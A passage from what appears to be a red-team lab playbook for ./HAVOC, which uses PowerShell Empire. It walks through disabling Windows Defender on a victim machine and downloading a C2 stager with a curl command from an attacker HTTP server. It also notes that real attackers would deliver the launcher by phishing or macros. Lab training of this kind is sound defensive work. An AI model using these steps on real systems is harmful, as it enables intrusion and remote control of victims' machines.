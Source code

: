 This step could be accomplished by an attacker in a number of ways.  For lab and testing purposes, we're going to download the C2 launcher directly and run it, but in the real world, the attacker may embed it into a Macro, leveraging phishing or social engineering methods, or any number of other ways to convince a user to run the C2 launcher. It is also expected that a sophisticated threat actor will find ways to bypass/evade the local anti-virus/EDR on the victim machine. See the note below for more details.

<div class="alert alert-info">
    <strong>Note:</strong> PowerShell Empire (the C2 framework used by ./HAVOC in this playbook) is a well-known C2 framework that will trigger anti-virus/EDR protections. Evading anti-virus/EDR is out of the scope of this lab so, you will need to disable Windows Defender on your victim Windows machine in order for the C2 launcher to execute. You can find instructions for disabling Windows Defender here: <a href="https://support.microsoft.com/en-us/windows/turn-off-defender-antivirus-protection-in-windows-security-99e6004f-c54c-8509-773c-a4d776b77960">Turn off Defender antivirus protection in Windows Security</a>
</div>

1.  Use an RDP client to connect to your victim Windows machine.

2.  Once you are into the Desktop, open a PowerShell terminal and cd to the C:\Users\\*username*\Documents directory:
    
    ![PowerShell_Directory](./images/powershell_directory.png)  

3.  Copy the **HTTP Server URL** from **Terminal 2**:

    ![HTTP Server URL](./images/http_server_url.png)

4.  Run a curl command to dowload the stager file by replacing the <url_to_launcher_file> value in the command below with the **HTTP Server URL** copied in the previous step (make sure to fully qualify the path to curl.exe or the command will not work):

    ```
    c:\windows\system32\curl.exe -k -O <url_to_launcher_file>
    ```
    